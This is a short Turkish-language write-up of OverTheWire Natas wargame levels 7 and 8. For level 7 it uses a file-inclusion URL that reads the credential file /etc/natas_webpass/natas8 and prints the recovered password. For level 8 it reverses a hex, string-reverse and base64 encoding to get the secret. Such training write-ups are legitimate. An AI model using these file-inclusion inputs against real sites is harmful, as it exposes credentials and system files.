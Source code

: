 + Username: natas7
+ URL:      http://natas7.natas.labs.overthewire.org

Hint;
-  password for webuser natas8 is in /etc/natas_webpass/natas8

```terminal
http://natas7.natas.labs.overthewire.org/index.php?page=about
```

şeklindeki URL in **about** kısmı yerine hint de verilen bilgi yazılmıştır.

```terminal
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8Home 
```

Böylelikle password elde edilmiştir.

```terminal
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 
```

![password](https://raw.githubusercontent.com/JohnGkmn/JohnGkmn.github.io/master/css/smashicons.png "DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe")


Natas Level 7 → Level 8
======

+ Username: natas8
+ URL:      http://natas8.natas.labs.overthewire.org

Hint;
- Sourcecode

```terminal
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>
```

Yukarıdaki kodda function incelendiğinde value bir dizi encryption işlemine tabi tutulmuş ve if bloğunda input ile kıyaslanmaktadır. EncodedSecret değerini decode için <https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_hex2bin> sitesi decoder olarak kullanılmıştır. Elde edilen değer <https://www.w3schools.com/php/phptryit.asp?filename=tryphp_func_string_strrev> yardımıyla reverse edilmiş ve Burp decoder ile base64 decode edilmiştir. Sonrasında elde edilen output natas8 de input olarak kullanılarak password elde edilmiştir.
